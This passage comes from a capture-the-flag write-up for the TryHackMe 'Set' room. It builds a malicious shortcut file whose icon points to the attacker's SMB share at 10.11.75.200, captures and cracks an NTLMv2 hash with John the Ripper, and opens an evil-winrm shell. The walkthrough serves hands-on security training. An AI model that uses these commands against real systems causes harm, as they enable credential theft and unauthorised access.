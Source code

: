 ```bash
  -i, --icon         Specifies the icon path
  -p, --printer-link Generates a network printer shortcut
```
{: .nolineno}
{: .nolineno}

Lets generate a lnk file that will open a smb share file from attacker machine with attackers IP address in it 🔽

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Set]
└─$ /opt/Tools/mslink_v1.3.sh -l open_me -n hook -i \\\\10.11.75.200\\share -o share.lnk
Creation of a "local folder" type shortcut with the target open_me
   
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Set]
└─$ zip share.zip share.lnk                                                              
updating: share.lnk (deflated 43%)    
```
{: .nolineno}
{: .nolineno}

- Now start the <mark style="background: #FF5582A6;">impacket-smbserver</mark> and then upload the zip file into the share and wait for response .

![Image](Pasted%20image%2020240316110919.png)

The Zip file triggers as it executes the lnk file and I have my hash value on smb shares.

Lets crack this hash value with John the Ripper Tool now ->

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Set]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSWORD>   (MichelleWat)     
1g 0:00:00:15 DONE (2024-03-16 11:16) 0.06353g/s 911293p/s 911293c/s 911293C/s 
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```
{: .nolineno}
{: .nolineno}

Lets see that privileges this user has 🔽

![Image](Pasted%20image%2020240316112038.png)

Now lets winrm into this user .

### WinRM Session  ⏩

```powershell
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Set]
└─$ evil-winrm -i 10.10.157.106 -u MichelleWat -p '<PASSWORD>'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\MichelleWat\Documents> cd ..
```